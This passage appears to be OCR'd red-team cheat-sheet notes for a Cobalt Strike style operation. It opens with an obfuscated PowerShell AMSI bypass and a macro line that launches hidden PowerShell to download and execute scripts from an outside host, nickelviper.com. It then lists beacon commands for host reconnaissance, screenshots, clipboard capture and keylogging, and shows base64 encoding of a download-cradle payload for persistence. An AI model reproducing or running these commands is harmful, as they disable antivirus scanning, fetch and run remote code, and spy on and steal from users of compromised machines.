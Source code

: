 S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )

# Like below, It can also be combined with above Macro

Shell.Run "powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://nickelviper.com/amsi-bypass.ps1')) ; IEX ((new-object net.webclient).downloadstring('http://nickelviper.com/a'))"""

Host Reconnaissance

# Identify running process like AV, EDR or any monitoring and logging solution
beacon> ps
# Check default process for fork & run
beacon> powerpick Get-Process -Id $pid | select ProcessName

# Use Seatbealt to enumerate about system
beacon> execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe -group=system

# Screenshot, Clipboard, Keylogger and User Sessions of currently logged in user
beacon> screenshot
beacon> clipboard
beacon> net logons

beacon> keylogger
beacon> job
beacon> jobkill 3

Host Persistence (Normal + Privileged)

# Default location for powershell
C:\windows\syswow64\windowspowershell\v1.0\powershell
C:\Windows\System32\WindowsPowerShell\v1.0\powershell

# Encode the payload for handling extra quotes 

# Powershell
PS C:\> $str = 'IEX ((new-object net.webclient).downloadstring("http://nickelviper.com/a"))'
PS C:\> [System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))
